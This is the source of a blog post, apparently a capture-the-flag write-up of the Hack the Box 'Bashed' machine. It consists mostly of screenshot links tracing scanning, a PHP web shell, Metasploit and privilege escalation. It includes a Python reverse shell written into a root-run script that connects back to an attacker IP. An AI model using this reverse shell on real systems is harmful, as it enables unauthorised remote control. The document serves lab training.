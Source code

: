 ```yaml
---
layout: post
title: Bashed by Hack the Box
meta:
category:
  - hack-the-box
image: card1-img.png
date: 2020-12-03
tags:
    - internal-inf
    - external-inf
    - nessus
    - scanning
    - host-discovery
    - port-scanning
permalink: blog/:title
---
```

<style>
  .hover-link:hover {
    
  }

  .hover-link {
    font-weight: bold;
    cursor: pointer;
    color: #05cfa3;
  }
</style>

![initial-nmap]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/initial-nmap.png "initial-nmap")

![nmap-follow-scan-all-http-scripts]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/nmap-follow-scan-all-http-scripts.png "nmap-follow-scan-all-http-scripts")

![apache-2.4.18-on-ubuntu]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/apache-2.4.18-on-ubuntu.png "apache-2.4.18-on-ubuntu")

![dev-subdomain]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/dev-subdomain.png "dev-subdomain")

![php-bash-shell]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/php-bash-shell.png "php-bash-shell")

![enumeration]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/enumeration.png "enumeration")

![create-shell]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/create-shell.png "create-shell")

![host-shell]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/host-shell.png "host-shell")

![web-delivery-metasploit]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/web-delivery-metasploit.png "web-delivery-metasploit")

![upgrade-metasploit-meterpreter]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/upgrade-metasploit-meterpreter.png "upgrade-metasploit-meterpreter")

![enumerate]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/enumerate.png "enumerate")

![sudo-l]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/sudo-l.png "sudo-l")

![tty-shell]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/tty-shell.png "tty-shell")

![files-owned-by-scriptmanager]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/files-owned-by-scriptmanager.png "files-owned-by-scriptmanager")

![file-run-by-root]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/file-run-by-root.png "file-run-by-root")

![spawn-shell-as-scriptmanager]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/spawn-shell-as-scriptmanager.png "spawn-shell-as-scriptmanager")

![content-discovery]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/content-discovery.png "content-discovery")

{% highlight Python %}
echo 'import socket,subprocess,os' > test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.26",4432)) ' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py
{% endhighlight%}

![got-root]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/got-root.png "got-root")

![overide-test-py]({{ site.baseurl }}/assets/images/article-images/bashed-hack-the-box/overide-test-py.png "overide-test-py")